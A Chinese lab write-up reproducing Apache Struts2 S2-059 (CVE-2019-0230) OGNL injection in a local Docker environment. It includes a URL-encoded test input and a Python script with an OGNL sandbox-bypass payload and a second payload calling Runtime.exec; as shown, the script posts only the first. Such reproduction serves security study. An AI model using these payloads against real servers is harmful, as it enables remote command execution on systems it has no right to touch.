 ------

# Struts2 S2-059 远程代码执行漏洞(CVE-2019-0230)



Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

影响版本: Struts 2.0.0 - Struts 2.5.20

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 漏洞环境

启动 Struts 2.5.16环境:

```plain
docker-compose up -d
```

启动环境之后访问`http://your-ip:8080/?id=1` 就可以看到测试界面

## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现233*233的结果被解析到了id属性中：

![img](assets/1670311131054-f1c231da-2cab-49cf-a891-288f7cb18ea8.png)



《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过struts2.5.16版本的沙盒的poc，利用这个poc可以达到执行系统命令。

通过如下Python脚本复现漏洞：

```python
import requests

url = "http://127.0.0.1:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/success'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
```